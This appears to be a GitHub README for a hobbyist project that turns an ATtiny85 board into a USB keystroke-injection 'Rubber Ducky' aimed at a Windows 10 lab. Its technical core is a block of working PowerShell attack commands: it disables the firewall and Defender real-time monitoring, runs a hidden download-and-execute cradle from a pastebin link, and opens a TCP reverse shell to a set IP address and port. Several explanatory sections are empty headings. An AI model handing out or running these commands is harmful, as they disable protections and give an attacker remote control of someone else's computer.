 
# ATtiny85 USB "Rubber Ducky"
## Creating a rubber ducky from an inexpensive programmable microcontroller and deploy a payload on a patched Windows 10 system.
_A research project by: Nate Ward._

### Why this project?

Outside of computers and cybersecurity, I have several other hobbies that I find interesting. One of such interests is electronics prototyping and another is 3D printing. After some initial searching, I found a topic that would be both interesting and demonstratible marrying several of my hobbies and interests. After some Google searching for topics, I chose using a ATtiny85 microcontroller as a inexpensive "Rubber Ducky". After settling on this project, I had to find a payload for the "Rubber Ducky" to deploy. I found that opening a reverse shell would be an excellent use of this device. I wanted to try and make this as stealthy as possible and not require complicated dependancies. The initial version will be attempted using a pure Powershell reverse shell script from [Nikhil Mittal [1]](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html).

### Project Steps and Requirements.

After reading through a guide availible from the website inc0x0 [2], I was able to layout a general plan for this project and research.

1. Create a lab that will allow me to isolate and test in a controlled enviorment. For this I will be using VMWare Workstation 16 Player (availible at [VMWare.com](https://www.vmware.com/products/workstation-player.html)).
	- Will need at least one of each of the following; Windows 10/11 workstation, Linux workstation.
2. Obtain a ATtiny85 from an online retailer.
	- I will be using Amazon for this one, they are in stock and a 5 pack only costs ~ $15.
	- While I'm on Amazon, I picked up some USB 3.0 Male to Female (Type A) adapters. **More on item this later.**
3. Install the Arduino IDE on my personal comuter for compiling and uploading the "Rubber Ducky" code to the ATtiny85.
	- This is a free download availible from [Arduio.cc](https://www.arduino.cc).
4. Some form of screen capture software to record my steps and demostration.
	- For this I chose "OBS Studio", also a free download from their website at [OBSProject.com](https://obsproject.com/).
5. Some additonal research for a reverse shell script. Using Powershell or a scripting language.
	- I will be research a few different methods for completing this task, first I would like to try and complete this tack using a pure powershell script.
	- After further research and a proof of conecpt on the powershell version from above, I chose to research and develop a Python script.

### What is a ATtiny85?



### What is a Rubber Ducky?









1. Rubber Ducky Commands

Turn "OFF" firewall.
```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;
```

Disable real-time virus monitoring.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true;
```

Change pastebin link to your script.
```powershell 	
powershell -windowstyle hidden -nop IEX (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/TnfTv8rt');
```


Powershell reverse shell Script.
```powershell	
$sm=(New-Object Net.Sockets.TCPClient("192.168.171.129",1337)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
$sm.Write($st,0,$st.Length)}
```









# References & Cited Work.<a id="references"></a> 
[1] Week of Powershells. By: Nikhil Mittal, Written May 2015. @ http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
[2] Budget "USB Rubber Ducky" - Digispark ATtiny85. By: inc0x0, Written Obctober 2018. @ https://inc0x0.com/2018/10/budget-usb-rubber-ducky-digispark-attiny85/
[3] How to Create a Reverse Shell in Python. By: Abdou Rockikz, Updated August 2022. @ https://www.thepythoncode.com/article/create-reverse-shell-python
[4] Disable Defender Powershell with Code Examples. By Unknown (Folkstalk.com). @ https://www.folkstalk.com/2022/09/disable-defender-powershell-with-code-examples.html

5. Software and Links.
[A] Windows 10 Installation Media - https://www.microsoft.com/en-us/software-download/windows10https://www.microsoft.com/en-us/software-download/windows10
